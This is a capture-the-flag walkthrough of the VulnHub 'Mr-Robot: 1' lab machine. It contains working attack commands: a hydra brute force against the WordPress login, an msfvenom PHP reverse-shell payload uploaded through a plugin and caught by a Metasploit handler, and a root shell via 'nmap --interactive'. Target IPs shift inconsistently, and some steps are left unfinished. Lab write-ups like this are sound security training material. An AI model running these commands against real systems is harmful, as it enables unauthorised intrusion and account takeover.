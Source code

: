 # Mr-Robot: 1
[VulnHub link](https://www.vulnhub.com/entry/mr-robot-1,151/)  
By Leon Johnson

Walkthrough:
* We are first greeted with a login page that is in command-line style, requiring users to specify both the username and the password:
![](/screenshots/mr-robot-1/Login.jpg)
* We try some common login credentials such as `admin:admin` and `admin:password`, which is incorrect.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/mr-robot-1/nmapScan.jpg)
* After eliminating our own IP address (`ifconfig`: 10.0.2.15) and our router gateway IP address (`route -n`: 10.0.2.1), we find that out of the 3 hosts, `10.0.2.5` can run SSH, HTTP and HTTPS services (of which the ports for the latter 2 are open), which is of interest to us as compared to the other hosts. We will start exploring this live host first.
* Run `nmap -p- -A 10.0.2.5`:
![](/screenshots/mr-robot-1/hostFullScan.jpg)
* Open `10.0.2.5` on our browser and we get an interactive-style page greeting us, leaving us with a "Terminal" where we can execute several restricted commands:
![](/screenshots/mr-robot-1/interactiveSite.jpg)
* Executing any of the commands yields either a video or a series of stories with pictures. `join` prompts for an email, but nothing happens either.
* Run `uniscan -u 10.0.2.5 -qwe`:
![](/screenshots/mr-robot-1/uniscanResults.jpg)
* Note: uniscan is a Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. -q enables directory checks, -w enables file checks and -e enables robots.txt and sitemap.xml check.
* uniscan vs. dirbuster: *to-be-added*
* From the scan results, we see that the site is running on WordPress, since the directory checks included links that ended with `wp-`.
* There is a robots.txt found from the scan's file checks. Open it and we see that there are 2 files listed: `fsocity.dic` and `key-1-of-3.txt`. The former is an unordered dictionary wordlist, while the latter reveals a string: `073403c8a58a1f80d943455fb30724b9`.
* It is likely that the dictionary file will be required for some sort of bruteforce attack later.
* `sitemap.xml` yields nothing .
* ...
* key-1-of-3.txt contains a string (`073403c8a58a1f80d943455fb30724b9`): after running hash-identifer against it, we know that it could be a MD5 hash.
* ...
* Head to the wp-login page of the WordPress site, and we try to login with some common login credentials. We find that the user `admin` does not exist ("invalid username").
* We have to find a way to see actual WordPress posts on the site (if any), since clicking "← Back to user's Blog!" on the login page brings us back to the interactive page that we initially encountered (which did not quite show us how we are able to escape that page to head to other pages of the site).
* To do so, we add a random parameter string to the end of the site (e.g. `/100`), in order to get the error message that the page cannot be found:
![](/screenshots/mr-robot-1/invalidPage.jpg)
* However, we are not able to find any posts on the site.
* Note: The walkthrough [here](https://www.youtube.com/watch?v=1-a-P1Q2AnA&t=322s) on YouTube shows that there is a post on the WordPress site, with the user `elliot`.
* Run `wpscan --url 10.0.2.5 --enumerate u` to find out a list of usernames of accounts on the WordPress site:
![](/screenshots/mr-robot-1/wpScanUsers.jpg)
* wpscan: a black box WordPress vulnerability scanner. *to-be-continued*
* Head to the WordPress login site and attempt to login with a random password for the username `elliot`. There is an error stating that the password for elliot is incorrect. Thus, we now know that the username elliot indeed exists, and our next step is to brute-force the password for that account.
* Run hydra 192.168.153.174 http-form-post "/wp-login.php:log=elliot&pwd=^PASS^:ERROR" -l elliot -P /tut/fsocity.dic -t 10 -w 30
* hydra: parallelized login cracker which supports numerous protocols to attack.
* Note: log and pwd are found by inspecting the input elements of the page's username and password fields through Developer Tools: `<input id="user_login" class="input" name="log"...>` and `<input id="user_pass" class="input" name="pwd"...>`
* The password (ER28-0652) is found somewhere at the bottom of the .dic file, thus it took quite some time to get it.
* After logging in as elliot, we are able to login and install as plugin called [File Manager](https://wordpress.org/plugins/wp-file-manager/).
* Run `msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.153.160 LPORT=4000 -f raw > shell.php` on our Kali VM to generate our payload. The LHOST is the IP address of our Kali VM.
* The payload is shell.php. Upload it through File Manager, and the file path is htdocs/wp-content/uploads/shell.php.
* Run `msfconsole` on our Kali VM. Run `use exploit/multi/handler` and `set payload php/meterpreter_reverse_tcp`.
* Run `set LPORT=4000` and `set LHOST=192.168.153.160` (IP address of our Kali VM).
* Run `exploit -j -z`. Open our reverse shell on the victim VM, and we will see from our Kali VM terminal that a session has been started.
* Run `sessions -i 1` then `sysinfo` to confirm that we are running on a Linux machine as detected earlier from our nmap/Zenmap scan.
* Navigate to our home directory and we find a directory called robot. Enter robot and we find key-2-of-3.txt and password.raw-md5.
* The key text file cannot be opened by us at the moment because the file is only readable by root, with no other permissions set. However, the password.raw-md5 file can be opened by us.
* We find the username `robot` and his password hash (`c3fcd3d76192e4007dfb496cca67e13b`) within the password file. Search for the original value behind the MD5 hash on the Google search engine, and we have now got the password (`abcdefghijklmnopqrstuvwxyz`) to robot.
* To-do: try to login via ssh using robot username and password. Ensure that the IP address of the victim VM is entered correctly.
* After logging in as robot, we find that we are able to open key-2-of-3.txt.
* We have to now find the last key, which is in /root. However, even after logging in as robot, we do not have the permission to navigate to /root. We have to do a privilege escalation here, using a badly configured nmap.
* Run `nmap`, `nmap --interactive` and then `!sh` to get a shell. `whoami` shows that we are now `root`.
* Head to /root and we find key-3-of-3.txt: `04787ddef27c3dee1ee161b21670b4e4`.
